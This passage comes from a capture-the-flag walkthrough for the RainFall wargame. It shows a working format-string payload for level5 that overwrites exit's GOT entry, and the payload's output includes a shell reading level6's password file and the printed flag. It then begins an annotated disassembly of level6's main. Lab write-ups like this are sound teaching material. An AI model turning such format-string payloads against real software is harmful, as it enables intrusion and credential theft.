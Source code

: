 - We can see that the address of the exit syscall is located at the address `08049838` of our PLT table

```bash
level5@RainFall:~$ objdump  -d ./level5
...
080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    *0x8049838
 80483d6:       68 28 00 00 00          push   $0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>
...
```

```bash
(gdb) disas 0x8049838
Dump of assembler code for function exit@got.plt:
   0x08049838 <+0>:     (bad)
   0x08049839 <+1>:     add    DWORD PTR [eax+ecx*1],0xffffffe6
End of assembler dump.
```

- So when exit() is called, the function will jump to the address stored in this address, let's stry to overwrite it with the address of o()

```bash
level5@RainFall:~$ echo -n -e '\x38\x98\x04\x08%134513824x%4$n' > /tmp/lol

level5@RainFall:~$ cat /tmp/lol  - | ./level5
# Prints a lot of spaces
200ls
ls
ls: cannot open directory .: Permission denied
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Level6

- [`objdump -d` output](http://ix.io/2dwZ)

### ASM Interpretation

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp ; ASM Prologue
   0x0804847d <+1>:     mov    ebp,esp ; ASM Prologue

   0x0804847f <+3>:     and    esp,0xfffffff0 ; Align esp
   0x08048482 <+6>:     sub    esp,0x20 ; Allocate 0x20 / 32 bytes on the stack
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40 ; Move 0x40 / 64 to first argument of malloc()
   0x0804848c <+16>:    call   0x8048350 <malloc@plt> ; Call malloc(64)
     ; void *malloc(size_t size);
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax ; Set the 28th byte of the stack to eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4 ; Set 0x4 / 4 as 1st argument of malloc()
   0x0804849c <+32>:    call   0x8048350 <malloc@plt> ; Call malloc(4)
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax ; Set the 24th byte of the stack to eax
   0x080484a5 <+41>:    mov    edx,0x8048468 ; Set edx to the address of m()
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18] ; Set eax to the 24th byte of the stack
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx ; Set eax to edx
   
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc] ; Set eax to 12 byte before the beginning of the stack
   0x080484b3 <+55>:    add    eax,0x4 ; Add 4 to eax
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax] ;
   0x080484b8 <+60>:    mov    edx,eax ; Set edx to eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c] ; Set eax to the 28th byte of the stack
```